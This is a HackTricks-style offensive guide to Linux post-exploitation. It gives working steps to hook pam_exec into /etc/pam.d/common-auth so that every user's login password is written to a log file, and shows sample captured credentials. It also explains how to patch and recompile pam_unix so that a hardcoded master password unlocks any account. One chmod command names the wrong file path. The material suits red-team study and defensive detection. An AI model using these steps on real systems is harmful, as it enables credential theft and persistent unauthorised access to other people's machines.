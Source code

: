 # Linux Post-Exploitation

<details>

<summary><strong>HackTricks in </strong><a href="https://twitter.com/carlospolopm"><strong>🐦 Twitter 🐦</strong></a> - <a href="https://www.twitch.tv/hacktricks_live/schedule"><strong>🎙️ Twitch 🎙️</strong></a> - <a href="https://www.youtube.com/@hacktricks_LIVE"><strong>🎥 Youtube 🎥</strong></a></summary>

- Do you work in a **cybersecurity company**? Do you want to see your **company advertised in HackTricks**? or do you want to have access to the **latest version of the PEASS or download HackTricks in PDF**? Check the [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!

- Discover [**The PEASS Family**](https://opensea.io/collection/the-peass-family), our collection of exclusive [**NFTs**](https://opensea.io/collection/the-peass-family)

- Get the [**official PEASS & HackTricks swag**](https://peass.creator-spring.com)

- **Join the** [**💬**](https://emojipedia.org/speech-balloon/) [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** me on **Twitter** [**🐦**](https://github.com/carlospolop/hacktricks/tree/7af18b62b3bdc423e11444677a6a73d4043511e9/\[https:/emojipedia.org/bird/README.md)[**@carlospolopm**](https://twitter.com/carlospolopm)**.**

- **Share your hacking tricks by submitting PRs to the [hacktricks repo](https://github.com/carlospolop/hacktricks) and [hacktricks-cloud repo](https://github.com/carlospolop/hacktricks-cloud)**.

</details>

## Sniffing Logon Passwords with PAM

Let's configure a PAM module to log each password each user uses to login. If you don't know what is PAM check:

{% content-ref url="pam-pluggable-authentication-modules.md" %}
[pam-pluggable-authentication-modules.md](pam-pluggable-authentication-modules.md)
{% endcontent-ref %}

First, we create a bash script that will be invoked whenever a new authentication occurs.

```bash
#!/bin/sh
echo " $(date) $PAM_USER, $(cat -), From: $PAM_RHOST" >> /var/log/toomanysecrets.log
```

The variables are PAM specific and will become available via the `pam_exec.so` module.

Here is the meaning of the variables:

* **$PAM\_USER:** The username that was entered.
* **$PAM\_RHOST:** The remote host (typically the IP Address)
* **$(cat -):** This reads `stdin`, and will contain the password that the script grabs
* The results are piped into a log file at `/var/log/toomanysecrets.log`

To **prevent all users from reading** the file consider pre-creating it and running `chmod`, e.g.:

```bash
sudo touch /var/log/toomanysecrets.sh
sudo chmod 770 /var/log/toomanysecrets.sh
```

Next, the PAM configuration file needs to be updated the `pam_exec` module will be used to invoke the script.

There are various config files located in `/etc/pam.d/`, and we pick `common-auth`.

```
sudo nano /etc/pam.d/common-auth
```

On the very bottom of the file, add the following authentication module:

`auth optional pam_exec.so quiet expose_authtok /usr/local/bin/toomanysecrets.sh`

The options have the following meaning:

* **optional:** Authenticaiton shouldn’t fail if there is an error (it’s not a required step)
* **pam\_exec.so:** This is the living off the land PAM module that can invoke arbitrary scripts
* **expose\_authtok:** This is the trick that allows to read the password via `stdin`
* **quiet:** Don’t show any errors to the user (if something doesn’t work)
* The last argument is the shell script that was created previously

![](<../../.gitbook/assets/image (375).png>)

Finally, make the file executable:

`sudo chmod 700 /usr/local/bin/toomanysecrets.sh`

Now, let’s try this out and ssh from another machine, or login locally.

And then look at the log file:

```
$ sudo cat /var/log/toomanysecrets.log
 Sun Jun 26 23:36:37 PDT 2022 tom, Trustno1!, From: 192.168.1.149
 Sun Jun 26 23:37:53 PDT 2022 tom, Trustno1!, From:
 Sun Jun 26 23:39:12 PDT 2022 tom, Trustno1!, From: 192.168.1.149
```

### Backdooring PAM

Let go to the sources of PAM (depends on your distro, take the same version number as yours..) and look around line numbers 170/180 in the pam\_unix\_auth.c file:

```
vi modules/pam_unix/pam_unix_auth.c
```

![](<../../.gitbook/assets/image (651).png>)

Let’s change this by:

![](<../../.gitbook/assets/image (638) (2) (2).png>)

This will allow any user using the **password "0xMitsurugi"** to log in.

Recompile the `pam_unix_auth.c`, and replace the pam\_unix.so file:

```bash
make
sudo cp \  
  /home/mitsurugi/PAM/pam_deb/pam-1.1.8/modules/pam_unix/.libs/pam_unix.so \  
  /lib/x86_64-linux-gnu/security/  
```

{% hint style="info" %}
You can automate this process with [https://github.com/zephrax/linux-pam-backdoor](https://github.com/zephrax/linux-pam-backdoor)
{% endhint %}

## References

* [https://embracethered.com/blog/posts/2022/post-exploit-pam-ssh-password-grabbing/](https://embracethered.com/blog/posts/2022/post-exploit-pam-ssh-password-grabbing/)
* [https://infosecwriteups.com/creating-a-backdoor-in-pam-in-5-line-of-code-e23e99579cd9](https://infosecwriteups.com/creating-a-backdoor-in-pam-in-5-line-of-code-e23e99579cd9)

<details>

<summary><strong>HackTricks in </strong><a href="https://twitter.com/carlospolopm"><strong>🐦 Twitter 🐦</strong></a> - <a href="https://www.twitch.tv/hacktricks_live/schedule"><strong>🎙️ Twitch 🎙️</strong></a> - <a href="https://www.youtube.com/@hacktricks_LIVE"><strong>🎥 Youtube 🎥</strong></a></summary>

- Do you work in a **cybersecurity company**? Do you want to see your **company advertised in HackTricks**? or do you want to have access to the **latest version of the PEASS or download HackTricks in PDF**? Check the [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!

- Discover [**The PEASS Family**](https://opensea.io/collection/the-peass-family), our collection of exclusive [**NFTs**](https://opensea.io/collection/the-peass-family)

- Get the [**official PEASS & HackTricks swag**](https://peass.creator-spring.com)

- **Join the** [**💬**](https://emojipedia.org/speech-balloon/) [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** me on **Twitter** [**🐦**](https://github.com/carlospolop/hacktricks/tree/7af18b62b3bdc423e11444677a6a73d4043511e9/\[https:/emojipedia.org/bird/README.md)[**@carlospolopm**](https://twitter.com/carlospolopm)**.**

- **Share your hacking tricks by submitting PRs to the [hacktricks repo](https://github.com/carlospolop/hacktricks) and [hacktricks-cloud repo](https://github.com/carlospolop/hacktricks-cloud)**.

</details>
